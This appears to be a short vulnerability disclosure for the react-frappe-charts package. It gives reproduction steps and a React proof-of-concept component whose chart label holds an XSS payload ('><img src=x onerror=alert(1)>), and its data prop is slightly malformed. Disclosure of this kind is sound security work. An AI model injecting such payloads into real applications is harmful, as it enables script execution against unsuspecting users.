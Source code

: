 # Description

`react-frappe-charts` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce

1. Create a sandbox using "React" https://codesandbox.io/s
2. Edit the data in the file `App.js` with the following code
```
//App.js
import React, { useRef } from "react";
import ReactFrappeChart from "react-frappe-charts";

export default function MyChart(props) {
  const chartRef = useRef();

  const exportChart = () => {
    if (chartRef && chartRef.current) {
      chartRef.current.export();
    }
  };

  return (
    <div>
      <ReactFrappeChart
        ref={chartRef}
        type="bar"
        colors={["#21ba45"]}
        axisOptions={{ xAxisMode: "tick", yAxisMode: "tick", xIsSeries: 1 }}
        height={250}
        data=
          labels: ["Sun", "Mon'><img src=x onerror=alert(1)>", "Tue", "Wed", "Thu", "Fri", "Sat", "Sun"],
          datasets: [{ values: [18, 60, 30, 35, 8, 52, 17, 4] }],
      />
      <button onClick={exportChart} type="button">
        Export
      </button>
    </div>
  );
}
```
3. And add the appropriate dependencies
4. XSS payload will get executed.
